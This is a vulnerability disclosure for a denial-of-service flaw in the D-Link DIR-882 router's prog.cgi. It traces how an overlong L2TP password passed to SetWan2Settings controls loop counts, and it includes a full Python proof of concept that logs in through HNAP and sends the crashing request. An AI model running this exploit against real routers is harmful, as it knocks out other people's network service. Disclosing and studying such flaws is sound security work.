



# Dlink DIR-882 DOS vulnerability
## Overview
- Manufacturer's website information：https://support.dlink.com/index.aspx 
- Firmware download address ：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
There is an DOS vulnerability in Dlink DIR-882_A1_FW1.30B06fix03, which can cause prog.cgi to crash.

## Affected version

Figure shows the latest firmware ：A1_FW1.30B06fix03 of the router
## Vulnerability details
The firmware version can be found is 1.30 on the web.


In prog.cgi,We can find the details in the code of setting L2TP function in sub_46A10C,the program passes the contents obtained by the /SetWan2Settings/Password parameter to V48.


The V48 parameter is called by the function decrypt_aes (). In the decrypt_aes () function, it is passed to the sub_427184 ().


In the function sub_427184 (), the length of the passed-in parameter is called as the number of cycles in two for loops.



Therefore, the number of cycles is controllable, and if the number of cycles is long enough, it will lead to dos.
## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following POC attacks

Poc is as follows:
```python
import math
import re
import time
from hashlib import md5

import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan2Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DynamicL2TP</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan2Settings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWan2Settings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWan2Settings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
After running poc, the process number of prog.cgi has changed, indicating that prog.cgi has been restarted, and normal data packets will not cause the process change.
Before running:



After running:


## CVE-ID
unsigned
